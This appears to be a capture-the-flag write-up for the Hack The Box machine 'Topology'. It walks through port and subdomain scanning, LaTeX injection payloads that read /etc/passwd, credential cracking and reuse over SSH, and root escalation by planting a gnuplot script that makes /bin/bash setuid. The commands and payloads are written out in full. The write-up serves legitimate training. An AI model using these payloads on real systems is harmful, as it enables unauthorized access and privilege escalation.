


------------

# Scanning Ports

### Nmap Scan

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.217 -oG scan
```

#### Output:
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 13:17 CST
Initiating SYN Stealth Scan at 13:17
Scanning 10.10.11.217 [65535 ports]
Discovered open port 22/tcp on 10.10.11.217
Discovered open port 80/tcp on 10.10.11.217
Completed SYN Stealth Scan at 13:17, 10.54s elapsed (65535 total ports)
Nmap scan report for 10.10.11.217
Host is up, received user-set (0.033s latency).
Scanned at 2025-02-23 13:17:18 CST for 11s
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
80/tcp    open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.65 seconds
Raw packets sent: 65537 (2.884MB) | Rcvd: 65535 (2.621MB)
```

## Version & Service Detection

```bash
nmap -sCV -p22,80 10.10.11.217
```

#### Output:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 13:25 CST
Nmap scan report for topology (10.10.11.217)
Host is up (0.034s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.82 seconds
```

### Codename Detection

### Ubuntu (Port 22)


### Ubuntu (Port 80)


### Before continuing with the web page that tells me the scan I did, I added to /etc/hosts the default domain that exists on each machine ---> (machine_name.htb), to see if I can see something different with whatweb.

```
> whatweb http://10.10.11.217

http://10.10.11.217 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[lklein@topology.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.217], Title[Miskatonic University | Topology Group]

> whatweb http://topology.htb

http://topology.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[lklein@topology.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.217], Title[Miskatonic University | Topology Group]

```

------------

## Web Page


### LaTeX Subdomain Found


### I add the found subdomain to /etc/hosts

----------------

## Searching for more subdomains:
### Wfuzz Scan Results

 ```sh
 wfuzz -c -t 200 --hh=6767 --hc=301 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.topology.htb"     http://topology.htb
 ```
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************

Target: http://topology.htb/
Total requests: 114441

ID       Response   Lines   Word   Chars   Payload
---------------------------------------------------
00000019:   401       14 L    54 W   463 Ch  "dev"
00000061:   200        5 L     9 W   108 Ch  "stats"

Total time: 90.12247
Processed Requests: 4194
Filtered Requests: 4192
Requests/sec.: 46.53667

```


### Add the found subdomains to /etc/hosts
   `dev` --> http://dev.topology.htb
  `stats` --> http://stats.topology.htb
### dev

- No interesting results in `dev` because I don't have credentials available.

### stats


### Returning to the `LaTeX` subdomain to test for **LaTeX Injection** vulnerabilities.

## Exploiting LaTeX Injection

- Searching for payload examples in **PayloadAllTheThings**:
  - [PayloadsAllTheThings - LaTeX Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)

### Testing Payloads:

- First Payload
```latex
\input{/etc/passwd}
```


- Second Payload
```latex
\lstinputlisting{/etc/passwd}
```


### Issue Debugging
- Reading the description I found something relevant:

### So I did a search on what that means:

### Further reading I found this:
 [Overleaf - Mathematical Expressions](https://www.overleaf.com/learn/latex/Mathematical_expressions)

## Tried the payload " \$\lstinputlisting{/etc/passwd}\$ " for reading files,  adding the "$" delimiters, and it **worked**.


-----

## User Enumeration

### Searching for Users with a bash I found the user: vdaisley


## I tried to search the **ssh** directory but it was not possible to find it, I also searched for the .bashrc, I found it but there was no relevant information.

## Before proceeding with system enumeration, I check whether I am inside the machine or inside a container using the command → `/proc/net/fib_trie`.


### And indeed, I am inside the victim machine and not a container.


### - Since I know the website is running on Apache, I search for the service's configuration files to see if I can find anything…
- `/etc/apache2/sites-available/000-default.conf`


### After gathering information about the website and its subdomains, I now know that the website is located in `/var/www/`.

### Since I already know that the `/dev` subdomain requires credentials, those credentials must be stored somewhere. So, I decide to enumerate the `/var/www/dev` directory, as authentication details are usually stored in a `.htaccess` file. In this case, it would be `/var/www/dev/.htaccess`.

### Finding this.


### Seeing what is in the newly found path, I found this.


### The password of the previously found user, but the password is hashed, so it needs to be cracked.


### Password cracked usign hashcat


### Now, I try the obtained credentials on `/dev` to see if they work:

**Username:** `vdaisley`  
**Password:** `calculus20`


### And I gain access. Since the credentials worked, I test if they are reused and try to log in via **SSH**.


# SSH
```sh 
ssh vdaisley@10.10.11.217

vdaisley@10.10.11.217's password: Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64) 

vdaisley@topology:~$
```

### I export the **TERM** variable as `xterm` and find the flag.

```sh 
vdaisley@topology:~$ export TERM=xterm 

vdaisley@topology:~$ ls user.txt 

vdaisley@topology:~$ cat user.txt 

86157a362822d5c0ee88b7dd68ad5db8 

```

### I proceed to enumerate the system.

### I confirm that the machine is running **Ubuntu Focal**.

```sh 
vdaisley@topology:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.6 LTS
Release:        20.04
Codename:       focal
```

### I don’t find anything manually, I can enumerate running processes at time intervals using the following **Bash script**. I give it execution permissions in the `/tmp` directory and run it, waiting for some output.

```sh 
vdaisley@topology:/tmp$ cat procmon.sh
```
```bash
#!/bin/bash
old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v "kworker"
    old_process=$new_process
done

```
```sh
vdaisley@topology:/tmp$ chmod +x procmon.sh
```

### When executing the script, these two processes caught my attention.


### I didn’t know what **gnuplot** was, so I looked it up.


### I searched to see if it was possible to execute commands using **gnuplot**.


### Since **gnuplot** executes files in `/opt/gnuplot` with a `.plt` extension and can run commands using the `system` function, my idea is to create a `.plt` file in `/opt/gnuplot` that grants the **setuid (4755) permission** to `/bin/bash`.

```bash
echo 'system("chmod 4755 /bin/bash")' > /opt/gnuplot/root_shell.plt
```

### And it executes!

### Now, I just need to launch a **bash shell** with the following command to escalate privileges and become **root**:


---

## Summary

- **Enumerated** web services and subdomains.
- **Exploited** LaTeX injection to read system files.
- **Found credentials** and cracked the hash.
- **Logged into SSH** with the obtained credentials.
- **Discovered a running process (`gnuplot`)** executing scripts as root.
- **Used `gnuplot` to modify file permissions**, gaining root access.
- **Captured root flag**. 🎉
